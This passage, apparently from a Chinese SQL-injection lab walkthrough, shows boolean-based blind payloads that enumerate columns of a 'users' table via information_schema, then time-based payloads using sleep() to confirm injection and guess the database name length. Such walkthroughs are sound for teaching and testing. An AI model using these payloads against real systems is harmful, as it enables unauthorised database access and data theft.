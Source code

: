 重复上述步骤，即可猜解出两个表名（guestbook、users）。

4.猜解表中的字段名
首先猜解表中字段的数量：


```
1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=1 # 显示不存在

…

1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=8 # 显示存在
```


说明users表有8个字段。

接着挨个猜解字段名：


```
1’ and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1 # 显示不存在

…

1’ and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=7 # 显示存在
```


说明users表的第一个字段为7个字符长度。

采用二分法，即可猜解出所有字段名。

5.猜解数据
同样采用二分法。

还可以使用基于时间的盲注：

1.判断是否存在注入，注入是字符型还是数字型

```
输入1’ and sleep(5) #，感觉到明显延迟；

输入1 and sleep(5) #，没有延迟；
```


说明存在字符型的基于时间的盲注。

2.猜解当前数据库名
首先猜解数据名的长度：


```
1’ and if(length(database())=1,sleep(5),1) # 没有延迟

1’ and if(length(database())=2,sleep(5),1) # 没有延迟

1’ and if(length(database())=3,sleep(5),1) # 没有延迟

1’ and if(length(database())=4,sleep(5),1) # 明显延迟
```
